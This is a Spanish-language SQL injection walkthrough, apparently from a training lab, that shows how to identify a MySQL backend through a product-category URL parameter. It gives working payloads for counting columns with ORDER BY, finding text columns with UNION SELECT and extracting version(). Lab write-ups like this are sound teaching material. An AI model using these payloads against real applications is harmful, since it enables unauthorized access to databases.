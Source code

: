 ### **Identificación de MySQL mediante SQL Injection**  

Estamos probando SQL Injection en una aplicación web que filtra productos por categoría. La petición vulnerable se realiza a través de una URL como esta:  

```
https://target.com/filter?category=Gifts
```
El parámetro `category` se inserta directamente en una consulta SQL, lo que permite inyectar código malicioso y extraer información de la base de datos.  

#### **Paso 1: Determinar el número de columnas con `ORDER BY`**  
Para encontrar el número de columnas, probamos con valores altos hasta obtener un error y luego reducimos hasta que la consulta sea válida:  
```sql
Gifts' ORDER BY 10--  
Gifts' ORDER BY 5--  
Gifts' ORDER BY 3--  
Gifts' ORDER BY 2-- ✅ (Éxito)
```
Cuando la consulta devuelve una respuesta válida, significa que la consulta original tiene **2 columnas**.  

#### **Paso 2: Identificar columnas de tipo texto**  
Usamos `UNION SELECT` con valores conocidos para ver qué columnas aceptan texto:  
```sql
Gifts' UNION SELECT 'test', NULL--  
```
Si `test` aparece en la respuesta, la primera columna acepta texto.  

#### **Paso 3: Obtener la versión de MySQL**  
Una vez confirmadas las columnas, extraemos la versión del servidor con:  
```sql
Gifts' UNION SELECT version(), NULL--  
```
- `version()` devuelve la versión exacta de MySQL.  
- Si obtenemos un resultado válido, confirmamos que la base de datos es **MySQL** y podemos continuar con ataques más avanzados.
